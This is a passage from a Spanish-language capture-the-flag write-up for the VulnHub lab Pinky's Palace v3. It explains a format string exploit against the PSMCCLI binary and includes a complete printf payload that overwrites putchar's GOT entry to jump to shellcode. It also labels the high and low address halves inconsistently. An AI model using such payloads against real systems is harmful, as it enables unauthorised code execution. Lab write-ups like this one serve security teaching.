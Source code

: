 - Calcular la división de la dirección del shellcode

Necesitamos dividir la dirección del shellcode en dos partes:

    Parte alta: 0xfe4b
    Parte baja: 0xbfff

Calculamos los rellenos sabiendo que las direcciones están en offset 134 y 135.
Como no usamos padding solo restamos 8 carácteres impresos antes del primer %u, en el caso de haber padding añadimos 1 carácter a la resta.

```plaintext
fill_low = 65099 - 8 = 65091
# Como 0xbfff es menor que 0xfe4b debemos hacer un overflow entonces
fill_high = 0x1bfff (114687) - 0xfe4b (65099) = 49588
```

- Construir el payload

```bash
/usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")%65091u%134\$hn%49588u%135\$hn
```

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-32.png)

#### Explicación

- **Direcciones: `\x1c\xa0\x04\x08\x1e\xa0\x04\x08`**

Estas son **dos direcciones escritas en little endian**, que colocamos como los **primeros 8 bytes del input**. Vamos a analizarlas:

- `\x1c\xa0\x04\x08` → esto es `0x0804a01c`  
- `\x1e\xa0\x04\x08` → esto es `0x0804a01e` (es decir, `0x0804a01c + 2`)

##### ¿Qué es esta dirección?

- Es la dirección **en la GOT** (Global Offset Table) de la función `putchar`.  
- El binario vulnerable **llama a `putchar()`**, así que si podemos **sobrescribir su GOT**, la ejecución se redirige a lo que queramos.

##### ¿Por qué hay dos direcciones?

Porque vamos a sobrescribir **una dirección completa de 32 bits**, pero el **format string exploit con `%hn` solo escribe 2 bytes (16 bits)**.

Así que:

- Esccribimos la **parte baja** (los primeros 2 bytes) en `0x0804a01c`
- Y la **parte alta** (los otros 2 bytes) en `0x0804a01e`


##### **Rellenos: `%65091u` y `%49588u`**

Estas directivas le dicen a `printf()` que **imprima X caracteres antes de hacer el write con `%hn`**.
